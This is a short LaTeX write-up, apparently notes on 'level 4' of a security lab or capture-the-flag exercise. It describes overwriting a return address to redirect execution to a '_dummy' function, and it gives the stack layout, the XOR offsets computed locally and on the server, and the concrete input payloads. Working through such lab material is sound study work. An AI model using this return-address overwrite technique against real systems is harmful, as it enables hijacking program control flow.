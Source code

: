 \documentclass{article}
\begin{document}
\subsection{level 4}
\begin{itemize}
	\item Now we notice that level 3 seems to work properly on our computer, however when running on the server the code crashes and doesn't print the message.\\
		We think this is because we ruind the return address. and \_dummy\_ doesnt know where to return to. 

	\item Want to override return address, and get \_dummy\_ address:
	\begin{small}\begin{verbatim}
	0 72
	0x00: cb000000 57c4e0f5 39d33517 00000000
	0x10: 00000000 00000000 00000000 00000000
	0x20: 00000000 00000000 00000000 00000000
	0x30: 00000000 00000000 00000000 <\_dummy>
	0x40: <ebp-mc> <main-r>
	\end{verbatim}\end{small}
	
	\item Locally (seed 1):
	\begin{small}\begin{verbatim}
		wanted ret addr = 0x004017C1
		existing addr = 0x00401288
		should xor with = 0x0000549
	0 72 CB000000 57C4E0F5 39D33517 00000000 00000000 00000000 00000000 00000000 00000000
			00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000549
	\end{verbatim}\end{small}

	\item On server (seed 1):
	\begin{small}\begin{verbatim}
		wanted ret addr = 0x00401771
		existing addr = 0x00401233
		should xor with = 0x00000542
	0 72 CB000000 57C4E0F5 39D33517 00000000 00000000 00000000 00000000 00000000 00000000
			00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000542
	\end{verbatim}\end{small}

	\item On server (seed 5):
	\begin{small}\begin{verbatim}
	0 72 32000000 5FB78862 2C3D0C71 00000000 00000000 00000000 00000000 00000000 00000000
			00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000542
	\end{verbatim}\end{small}
	

\end{itemize}
\end{document}
